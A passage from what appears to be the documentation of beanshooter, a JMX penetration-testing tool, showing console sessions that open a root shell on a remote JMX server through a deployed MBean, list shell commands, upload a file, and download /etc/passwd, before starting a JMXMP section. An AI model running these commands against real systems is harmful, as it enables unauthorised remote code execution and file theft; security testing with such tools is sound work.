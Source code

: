 ```console
[qtc@devbox ~]$ beanshooter tonka shell 172.17.0.2 9010
[root@172.17.0.2 /]$ id
uid=0(root) gid=0(root) groups=0(root)
[root@172.17.0.2 /]$ cd /home
[root@172.17.0.2 /home]$ !env test=example
[root@172.17.0.2 /home]$ echo $test
example
```

The example above demonstrates how to set environment variables using the `!env` keyword. Apart from this
keyword, several others are available:

```console
[qtc@devbox ~]$ beanshooter tonka shell 172.17.0.2 9010
[root@172.17.0.2 /]$ !help
Available shell commands:
  <cmd>                        execute the specified command
  cd <dir>                     change working directory on the server
  exit|quit                    exit the shell
  !help|!h                     print this help menu
  !environ|!env <key>=<value>  set new environment variables in key=value format
  !upload|!put <src> <dst>     upload a file to the remote MBeanServer
  !download|!get <src> <dst>   download a file from the remote MBeanServer
  !background|!back <cmd>      executes the specified command in the background
```

#### Tonka Upload

The `upload` action can be used to upload a file to the *JMX* server:

```console
[qtc@devbox ~]$ beanshooter tonka upload 172.17.0.2 9010 file.dat /tmp
[+] Uploading local file /home/qtc/file.dat to path /tmp on the MBeanSerer.
[+] 33 bytes were written to /tmp/file.dat
```

#### Tonka Download

The `download` action can be used to download a file from the *JMX* server:

```console
[qtc@devbox ~]$ beanshooter tonka download 172.17.0.2 9010 /etc/passwd
[+] Saving remote file /etc/passwd to local path /home/qtc/passwd
[+] 1172 bytes were written to /home/qtc/passwd
```


### JMXMP

---

*JMX* services can use different connector types. The by far most commonly used connector is *Java RMI*, which
allows access to *JMX* based on the *Java RMI* protocol. Another popular connector is the *JMX Message Protocol*
(*JMXMP*) that, despite being outdated, is still encountered quite often. *beanshooter* has builtin *JMXMP* support
and attempts to connect via *JMXMP* when using the `--jmxmp` option:
